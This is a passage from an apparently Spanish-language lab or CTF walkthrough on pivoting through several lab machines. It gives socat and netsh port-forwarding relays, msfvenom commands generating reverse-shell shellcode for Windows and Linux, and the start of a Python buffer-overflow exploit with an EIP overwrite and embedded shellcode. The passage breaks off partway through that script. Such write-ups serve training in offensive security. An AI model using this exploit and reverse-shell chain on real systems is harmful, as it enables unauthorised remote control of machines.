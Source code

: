 La máquina Brainpan deberá enviar la reverse shell a través de todas las máquinas anteriores y cada una de ellas deberá enviarla a la anterior, esto con el uso de socat.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:7777,fork TCP:192.168.0.104:7777

# En la máquina Nagini
./socat TCP-LISTEN:7777,fork TCP:20.20.20.4:7777

# En la máquina Dumbledore
netsh interface portproxy add v4tov4 listenport=7777 
listenaddress=40.40.40.5 connectport=7777 
connectaddress=30.30.30.6

# En la máquina Matrix
./socat TCP-LISTEN:7777,fork TCP:40.40.40.6:7777
```

Ahora se debe crear otro shellcode para que la shell le llegue a la máquina Matrix y esta la reenvíe por las otras máquinas.

Esta máquina tiene dos sistemas operativos por lo que si se hace una shellcode para un windows, se obtendrá una shell en un windows y si se hace para un linux, se obtendrá la shell del linux.

```bash
# Obtener una shell de Windows
msfvenom -p windows\shell_reverse_tcp 
--platform windows -a x86 LHOST=50.50.50.4 
LPORT=7777 -f c -b '\x00' EXITFUNC=thread

# Obtener una shell de Linux
msfvenom -p linux/x86/shell_reverse_tcp 
LHOST=50.50.50.4 LPORT=7777 -f c -b '\x00' 
EXITFUNC=thread
```

- Script final
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    import sys
    from struct import pack
    
    # Variables de entorno
    ip_address = "50.50.50.5"
    port = 9999
    offset = 524
    
    # DAtos a enviar
    before_eip = b"A"*offset
    eip = pack("<L", 0x311712f3)
    shellcode = (b"\xda\xd2\xb8\x88\x6b\x6a\x4e\xd9\x74\x24\xf4\x5e\x31\xc9"
    b"\xb1\x12\x31\x46\x17\x83\xc6\x04\x03\xce\x78\x88\xbb\xff"
    b"\xa5\xbb\xa7\xac\x1a\x17\x42\x50\x14\x76\x22\x32\xeb\xf9"
    b"\xd0\xe3\x43\xc6\x1b\x93\xed\x40\x5d\xfb\xdf\x80\xaf\xff"
    b"\x77\xe7\xcf\xe1\xe6\x6e\x2e\xad\x8f\x20\xe0\x9e\xfc\xc2"
    b"\x8b\xc1\xce\x45\xd9\x69\xbf\x6a\xad\x01\x57\x5a\x7e\xb3"
    b"\xce\x2d\x63\x61\x42\xa7\x85\x35\x6f\x7a\xc5")
    